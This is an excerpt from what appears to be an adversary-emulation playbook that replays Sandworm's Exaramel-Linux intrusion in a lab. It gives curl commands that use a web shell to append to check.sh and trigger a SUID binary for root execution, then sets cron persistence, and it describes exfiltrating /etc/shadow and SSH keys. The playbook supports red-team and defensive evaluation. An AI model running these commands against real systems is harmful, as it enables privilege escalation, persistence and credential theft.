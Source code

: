 ```bash
curl --insecure "https://10.0.1.5/search.php?cmd=echo%20%27%2Fvar%2Fwww%2Fhtml%2Fcentreon_module_linux_app64%20%26%27%20%3E%3E%20%2Fvar%2Fwww%2Fhtml%2Finclude%2Ftools%2Fcheck.sh"
```

Execute SUID binary, `/bin/backup`; this binary executes `check.sh` from the previous step, which causes Exaramel-Linux to be executed with root privileges.

```bash
# Exaramel for Linux can execute commands with high privileges via a specific binary with setuid functionality.

curl --insecure "https://10.0.1.5/search.php?cmd=/bin/backup" &
```

[Source Code](../../Resources/suid-binary/suid-binary.c)

:warning: Switch to your controlServer tab; you should have a new callback.

#### :microscope: Cited Intelligence

* <https://www.justice.gov/opa/press-release/file/1328521/download>

<br>

### Step 14 - Exaramel Linux Persistence

:microphone: `voice track`

During this step, Sandworm establishes crontab and systemd persistence.

Sandworm then exfils /etc/shadow, bash history, and fherbert's SSH keys over the existing C2 channel.

In the next step, Sandworm uses credentials derived from the /etc/shadow file to attack a lateral host.

#### ☣️ Procedures

From your control server tab, split the window horizontally:

```
Right click > Split Horizontally
```


In your lower terminal, enter the control server directory. Interaction with Exaramel-Linux (the implant) will occur through this terminal.

```
cd ~/wizard_spider/Resources/control_server
```

Set cron persistence.

```bash
# Exaramel for Linux uses crontab for persistence if it does not have root privileges.

./evalsC2client.py --set-task exaramel-implant "persist cron"
```
